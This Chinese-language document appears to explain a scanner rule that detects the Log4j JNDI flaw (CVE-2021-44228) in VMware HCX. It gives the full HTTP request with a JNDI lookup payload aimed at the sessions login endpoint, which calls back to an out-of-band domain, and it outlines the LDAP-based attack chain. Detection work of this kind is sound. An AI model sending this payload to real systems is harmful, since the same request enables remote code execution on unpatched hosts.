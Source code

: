 # VMware HCX - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware HCX 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：VMware HCX（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到HCX接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送POST请求到如下接口：
  ```
  POST /hybridity/api/sessions HTTP/1.1
  Host: <目标主机>
  Accept: application/json
  Content-Type: application/json
  Origin: <BaseURL>

  {
    "authType": "password",
    "username": "${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.username.<interactsh-url>}",
    "password": "admin"
  }
  ```
  - <rand1>、<rand2>为随机数，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 该规则主要依赖OAST平台的DNS交互，不强制要求特定响应内容。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. OAST平台收到带有对应随机标识的DNS查询，
  2. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2 = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.username.<oast-domain>}'
  发送POST /hybridity/api/sessions，username字段为payload
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的POST请求到/api/sessions] --> B[等待OAST平台DNS回显]
      B --> C{DNS查询中含随机标识?}
      C -- 否 --> F[无漏洞或未触发]
      C -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [VMware官方安全公告](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 